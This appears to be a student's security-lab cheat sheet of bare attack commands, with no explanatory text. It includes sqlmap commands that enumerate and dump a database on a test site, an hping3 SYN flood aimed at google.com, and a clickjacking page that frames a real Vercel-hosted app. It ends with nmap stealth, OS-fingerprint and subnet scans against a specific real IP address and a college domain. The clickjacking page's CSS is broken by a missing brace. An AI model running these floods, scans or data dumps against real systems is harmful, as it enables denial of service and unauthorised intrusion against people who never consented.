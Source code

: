 # css

ping -c 5 1.1.1.1
whois example.com
nslookup example.com
traceroute 8.8.8.8
ifconfig

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T carts --columns
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T carts -C item --dump

sudo apt-get -y install hping3
sudo hping3 -S --flood -V -p 80 google.com

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Clickjacking</title>
</head>
<style>
    iframe{
        opacity: 0.1;
    }
    button	        position: absolute;
        top: 485px;
        left: 175px;
    }
</style>
<body>
    <h2>Clickjacking Demo Page (iframe)</h2><br/>
    <iframe src="https://study-notion-frontend-wheat.vercel.app/" height="500px" width="500px"></iframe>
    <button>click me </button>
</body>
</html>


ping -c 5 www.tcetmumbai.in
nmap -sT 162.241.71.29 (tcp scan)
sudo nmap -sX 162.241.71.29 (xmas scan)
sudo nmap -O 162.241.71.29 (os fingerprinting)
sudo nmap -sn 162.241.71.29/24 (ping scanning)
sudo nmap 162.241.71.29 (port scanning)

